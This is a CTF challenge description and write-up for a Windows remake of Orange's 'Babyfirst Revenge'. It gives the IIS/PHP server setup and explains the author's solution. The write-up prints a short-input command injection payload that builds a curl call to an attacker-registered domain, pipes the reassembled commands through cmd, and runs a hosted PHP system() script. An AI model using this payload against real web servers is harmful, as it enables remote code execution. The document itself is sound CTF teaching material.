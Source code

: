 ## Challenge Information

- Name: Babyfirst Revenge: Remastered
- Type: Web
- Description:

```
This is a remastered edition on Windows 10 of Orange's [Babyfirst Revenge](https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge) in HITCON CTF 2017.

Hint 1: the intended solution is similar to [Orange's](https://github.com/orangetw/My-CTF-Web-Challenges#solution-10).

Run C:\\getflag.exe I rea11y wan7 t0 get 7h3 f1ag plz! to get the flag.
```

- Files provided: None
- Solves: 1 / 15

## Build

1. Amazon EC2 Windows Server 2019
2. [Install IIS and CGI](https://stackify.com/how-to-host-php-on-windows-with-iis/)
  - Web Server (IIS)
    - Ppen "Turn on or off Windows features"
    - Add roles and Features Wizard
    - next, next, next
    - Server roles -> choose "Web Server (IIS)"
    - Features -> next
    - Web server role (IIS) -> next
    - Role Service -> Application development -> CGI
    - Install

3. Install PHP 7.4.1 x64 via [Microsoft’s Web Platform Installer](https://www.iis.net/downloads/microsoft/web-platform-installer)
  - `wget https://download.microsoft.com/download/8/4/9/849DBCF2-DFD9-49F5-9A19-9AEE5B29341A/WebPlatformInstaller_x64_en-US.msi -O WebPlatformInstaller_x64_en-US.msi`
  - Open Web Platform Installer -> Products -> PHP 7.4.1(x64) -> I accept
  - The PHP Manager for IIS will fail to be installed. It's safe to ignore it.
4. [Enable "Load User profile"](https://stackoverflow.com/a/46535790) such that PHP can use system command.
  - Open IIS manager
  - Select -> Application Pools node underneath the machine node (left panel)
  - Right click on the desired domainname in the application pools -> Advanced settings
  - Scroll to Process Model
  - Set Load User Profile = True
  - Stop and start the applicaiton

5. Put `index.php` in `C:\inetpub\wwwroot`
  - Delete other `iis*` files in the directory
6. Create a directory `C:\sandbox` and prevent user listing the content, but they can still access subdirectories.
  - right click -> properties -> security -> edit -> Users -> Write -> Allow -> OK, yes, OK
  - right click -> properties -> security -> advanced -> add 
  - pricipal: `IUSR` -> type: deny -> applies to: this folder only
  - show advanced permissions -> only check `list folder / read data`
  - ok, ok, ok
7. Allow user to write on etc hosts
  - `C:\windows\system32\drivers\etc\hosts`
  - Right click -> properties -> security -> edit -> Users -> Write -> Allow -> OK, yes, OK
8. Flag:
  - Copy `getflag.exe` to `C:\`
  - right click -> properties -> security -> advanced
  - disable ingeritance -> convert inhrited permissions ...
  - select `Allow Users ...` rules -> Remove
  - add -> pricipal: `IUSR` -> type: allow
  - show advanced permissions -> check `traverse folders / execute file` only
  - ok, ok, ok
9. Delete powershell history:
   - `cmd.exe /c del %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
   - clean all the file on desktop
   - clean the recycle bin

## Writeup

The payload is very similar to [Orange's intended solution](https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge) but in a Windows version.

```
.>"cur^
.>"l,@^
.>"qst^
.>"r3t^
.>v.tw
dir/b>y
cmd<y>z
php z
```

1. `curl` is present in Windows Server 2019
2. comma will be automatically [split by command line](https://www.robvanderwoude.com/parameters.php#Delimiters) and it will be interpreted as the argument.
3. `@`: because the comma is not a valid character in URL, so we use `@` trick here to bypass it.
4. `qstr3tv.tw` is just a random domain.
5. `^` is used to specify [multiline command](https://stackoverflow.com/a/605724). Actually this character should be escaped but it seems to be okay in command line.
6. `dir /b` works simiarly as `ls`. List files in lexicographical order.
7. `cmd` can read commands from input

We can leverage the helper in the challenge to register the domain `/?tld=tw&domain=qstr3tv&ip=255.255.255.255`.

And make a webserver to host this file:

```
<?php
system("C:\\getflag.exe I rea11y wan7 t0 get 7h3 f1ag plz!");
?>
```

There should be other creative solutions but sadly I don't see any in this domestic CTF.

## Postscript

As mentioned previously, the original idea was [Orange's challenge](https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge) - execute command but only in 5 bytes. I just wonder if it's possible in Windows environment, but I can only make the payload less than 8 bytes due to `cmd<y>z`. If you know any payload less than 7 bytes please let me know (or you can create another challenge.)

For the domain helper, I know someone will have problem getting a domain because he has no credit card. Therefore, the `etc\host` trick is in consideration of fairness, to ensure that everyone can have a domain to solve this challenge!
